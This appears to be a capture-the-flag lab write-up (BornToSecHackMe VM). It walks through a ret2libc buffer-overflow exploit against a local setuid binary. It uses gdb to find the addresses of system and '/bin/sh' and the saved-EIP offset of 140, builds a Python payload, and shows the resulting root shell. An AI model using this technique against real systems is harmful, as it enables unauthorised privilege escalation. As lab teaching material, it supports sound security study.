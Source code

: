 # ret2libc

<!--toc:start-->
- [ret2libc](#ret2libc)
  - [Get addresses](#get-addresses)
  - [Exploitation](#exploitation)
<!--toc:end-->

For the buffer overflow part we can use another method called [ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

## Get addresses

Get address of `system`:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Get address of `/bin/sh`:

```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
```

Get saved eip offset:

```bash
(gdb) r $(python -c 'print "A" * 64')
Starting program: /home/zaz/exploit_me $(python -c 'print "A" * 64')

Breakpoint 1, 0x0804842c in main ()
(gdb) x/64xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff700:     0xb7fed280      0x00000000      0x08048449      0xb7fd0ff4
0xbffff710:     0x08048440      0x00000000      0x00000000      0xb7e454d3
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x804842c in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame s sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
```

Buffer start at `0xbffff690` and eip start at `0xbffff71c`.

```bash
(gdb) p 0xbffff71c - 0xbffff690
$2 = 140
```

The offset is 140. We can exploit now.

## Exploitation

With the previous informations we can compose our exploit:

1- fill up to the offset of saved eip with some chars
2- write the address of `system`
3- write return address of system (we don't return but we need to fill it)
4- write the address of `/bin/sh`

We get this:

```bash
python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])'
```

Try to use this exploit:

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`BBBBX
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
